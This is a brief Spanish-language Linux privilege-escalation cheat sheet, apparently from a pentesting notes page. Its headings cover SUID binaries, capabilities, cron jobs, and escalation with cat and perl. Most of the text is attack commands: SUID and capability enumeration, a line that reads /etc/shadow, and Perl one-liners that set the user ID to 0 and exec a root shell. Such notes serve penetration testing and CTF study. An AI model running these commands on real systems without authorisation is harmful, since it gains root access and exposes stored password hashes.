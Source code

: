 ### SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios para escalada de privilegios

```python
	find / -perm -u=s -type f 2>/dev/null
	
	find / -perm -4000 2>/dev/null
```
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```

### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas programadas

```python
	cat /etc/crontab
```
